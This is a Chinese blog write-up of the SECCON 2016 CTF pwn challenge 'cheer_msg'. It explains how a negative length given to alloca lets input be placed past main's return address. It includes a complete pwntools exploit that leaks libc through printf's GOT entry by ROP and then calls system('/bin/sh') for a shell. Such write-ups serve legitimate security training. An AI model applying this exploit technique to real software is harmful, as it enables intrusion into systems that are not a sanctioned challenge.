



<!--yml
category: 未分类
date: 2022-04-26 14:31:59
-->

# Seccon-ctf-2016-pwn-cheer_msg 题解___lifanxin的博客-CSDN博客

> 来源：[https://blog.csdn.net/A951860555/article/details/114011564](https://blog.csdn.net/A951860555/article/details/114011564)

# 文件信息

样本来自2016年Seccon ctf的一道pwn题–[cheer_msg](https://download.csdn.net/download/A951860555/15446455)，同时这道题目也给了[libc](https://download.csdn.net/download/A951860555/15446916)文件，减少了漏洞利用难度。
检查样本信息:
  32位小端程序，开启了栈溢出保护和NX保护。


# 漏洞定位


整个程序还是比较易懂的，主体逻辑存在于main和message两个函数。上图展示了main函数的伪C代码，要求输入一个长度，然后按照长度进行相应计算后使用alloca在栈上分配空间。这道题目比价新颖的是使用了alloca函数，该函数不同于一般的堆内存分配函数，它会将内存分配到栈中，因此该内存分配函数在实际编程中用的比较少。

接着，我们看一下message函数，伪C代码截图如上，第一个getnline调用将n个字节存入到a1变量所在的地址中，该变量即是main中的v7变量，这里考虑到n是我们输入的值，所以猜想这里可能存在栈溢出。然后接着往下看，第二个getnline调用将64字节存到v3中，随后打印了v3和a1内存位置的值，初步分析这里由于读取限制了长度且栈上空间足够大，所以没有明显的溢出漏洞。

# 利用分析

  关于漏洞利用，这里我一开始的思路是利用message函数中第一个getnline造成缓冲区溢出，利用第二个getnline以及printf泄露canary。不过后来发现，main函数中并没有canary机制，因此如果只是利用main栈帧溢出的话是不需要泄露canary的。随后在漏洞利用过程中，我发现存在一些问题，因为想着是缓冲区溢出，所以希望输入的n尽可能大。但如果n是一个正整数的话，就会发现getnline读入的内容永远都是小于main中的padding，因为alloca会抬高esp，v7的值也是由esp决定的，这里可以详细查看汇编代码进行分析。
  因此这里我们可以反向思维一下，将n取为负数，这样会使esp向下移动（栈顶为低地址，栈底为高地址）。当我们把esp指针往下移，使其低于main函数自身的ebp，之后再进入message函数时，此时栈帧从当前esp开始往上增加。此时利用第二个getnline将payload布置在栈上（由于输入的n为负数，所以这里第一个getnline已经无法获取输入），这里不需要溢出，由于esp低于原来main的ebp，所以这里调整好payload的offset就能将其有序的布置在main函数的ret addr后，实现漏洞利用。最后就是payload的构造了，采用ROP的方式利用printf函数打印出printf自身的地址，然后根据给出的libc库文件计算出基址，再调用system("/bin/sh\x00")。

# wp

```
from pwn import *

p = process("./cheer_msg")
pro = ELF("./cheer_msg")
libc = ELF("./libc.so.6_x86")

printf = pro.plt["printf"]
printf_got = pro.got["printf"]
start = 0x080484B0

p.sendlineafter("Message Length >> ", "-100")
pad = cyclic(44+4)   
pad += p32(printf) + p32(start) + p32(printf_got)

p.sendlineafter("Name >> ", pad)

p.recvuntil("Message : \n")
addr = p.recv(4)
addr = u32(addr)
print("=============", addr, hex(addr))

base = addr - libc.symbols["printf"]
sys = base + libc.symbols["system"]
sh = base + next(libc.search(b"/bin/sh\x00"))

p.sendlineafter("Message Length >> ", "-100")
pad = cyclic(44+4)
pad += p32(sys) + p32(start) + p32(sh)
p.sendlineafter("Name >> ", pad)

p.interactive() 
```

# 总结

本题目用了一个比较少见的alloca函数，同时漏洞利用的思路也算是别开新面，需要利用alloca去分配负的内存空间，从而让esp栈顶指针向栈底移动，让一个本身没有溢出的函数实现payload的布置。另外在漏洞具体实现的过程中，payload的offset确定是一个比较关键的问题，这里推荐大家动态调试，快捷且方便。